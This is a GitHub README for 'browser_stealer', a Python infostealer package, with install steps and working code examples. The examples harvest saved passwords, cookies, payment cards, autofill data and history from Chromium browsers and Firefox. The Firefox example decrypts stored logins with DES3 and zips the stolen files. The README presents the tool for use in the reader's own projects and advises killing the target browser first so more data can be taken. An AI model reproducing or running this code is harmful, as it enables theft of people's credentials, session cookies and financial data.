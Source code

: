 <h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v2.0.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer-<version>-py3-none-any.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer-<version>-py3-none-any.whl` and run following command:
- *IMPORTANT* - Do not rename the downloaded file, that might prevent you from installing the module
  
```
pip install browser_stealer-<version>-py3-none-any.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

- **RECOMMENDED**: before stealing anything its recommended to kill the targeted browser because some data wont be stolen if browser is running

##### Chromium

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer, os


def MyBrowser():
    browser_stealer.fetch_passwords(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Login Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.decrypt_fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"))
    browser_stealer.fetch_history(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_downloads(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_bookmarks(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Bookmarks"))
    browser_stealer.fetch_payment(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_autofill(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"))

    browser_stealer.Utils().zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.Utils().delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

##### Firefox

```py
import os
from Crypto.Cipher import DES3
from Crypto.Util.Padding import unpad
import browser_stealer


def firefox():
    utils = browser_stealer.Utils()
    profiles = browser_stealer.FirefoxUtils(os.path.join(os.environ["USERPROFILE"], r"AppData\Roaming\Mozilla\Firefox\profiles.ini")).fetch_profiles()


    for profile in profiles[0]:
        profile_path = os.path.join(os.environ["USERPROFILE"], r"AppData\Roaming\Mozilla\Firefox", profile[2])
        path = profile_path if profile[1] else profile[2]

        b_st = browser_stealer.Firefox(path)

        key = b_st.get_key()
        algo = b_st.get_algo()
        
        ff_data = browser_stealer.FirefoxData(path)

        login_data = ff_data.fetch_passwords()
        cookies = ff_data.fetch_cookies()
        history = ff_data.fetch_history()
        autofill = ff_data.fetch_autofill()
        bookmarks = ff_data.fetch_bookmarks()
        downloads = ff_data.fetch_downloads()
        
        for cookie in cookies:
            #name, value, host, path, isSecure, isHttpOnly, expiry, lastAccessed, creationTime
            txt = f"\nName: {cookie[0]}\nValue: {cookie[1]}\nHost: {cookie[2]}\nPath: {cookie[3]}\nIs Secure: {cookie[4]}\nIs http only: {cookie[5]}\nExpiry: {cookie[6]}\nLast accessed: {cookie[7]}\nCreation time: {cookie[8]}\n"
            utils.store_data(file="cookies.txt", data=txt)

        for visited in history:
            #url, title, visit_count, last_visit_date
            txt = f"\nURL: {visited[0]}\nTitle: {visited[1]}\nVisit count: {visited[2]}\nLast visit: {visited[3]}\n"
            utils.store_data(file="history.txt", data=txt)

        for instance in autofill:
            #fieldname, value, timesUsed, firstUsed, lastUsed
            txt = f"\nFieldname: {instance[0]}\nValue: {instance[1]}\nTimes used: {instance[2]}\nFirst used: {instance[3]}\nLast used: {instance[4]}\n"
            utils.store_data(file="autofill.txt", data=txt)

        for bookmark in bookmarks:
            #title, dateAdded, lastModified
            txt = f"\nTitle: {bookmark[0]}\nDate Added: {bookmark[1]}\nLast modified: {bookmark[2]}\n"
            utils.store_data(file="bookmarks.txt", data=txt)

        for download in downloads:
            #path, metadata, dateAdded
            txt = f"\nPath: {download[0]}\nMetadata: {download[1]}\nDate downloaded: {download[2]}\n"
            utils.store_data(file="downloads.txt", data=txt)

        key = b_st.get_key()
        algo = b_st.get_algo()
        login_data = ff_data.fetch_passwords()
    

        if algo != "1.2.840.113549.1.12.5.1.3" and algo != "1.2.840.113549.1.5.13":
            return
        
        for login in login_data:
            data = ""

            data += f"\nURL: {login[2]}"

            iv = login[0][1]
            cipher_text = login[0][2] 
            username = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(cipher_text), 8).decode()
            data += f"\nUsername: {username}"

            iv = login[1][1]
            cipher_text = login[1][2] 
            password = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(cipher_text), 8).decode()
            data += f"\nPassword: {password}"

            data += f"\nTimes Used: {login[5]}"

            utils.store_data(file=f"passwords.txt", data=f"{data}\n")


        utils.store_data(file=f"passwords.txt", data=f"\nKEY: {key}\nALGO: {algo}\n")
        files = ["passwords.txt", "cookies.txt", "history.txt", "bookmarks.txt", "autofill.txt", "downloads.txt"]
        utils.zip("Firefox.zip", files)
        utils.delete_files(files)

firefox()
```

Here we have an function that you could modify for your own firefox fork...

```py
import browser_stealer

browser_stealer.firefox_steal()
```

This is how to achieve the same thing but in only two lines...

## [Video Tutorial](https://youtube.com) (comming soon)

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
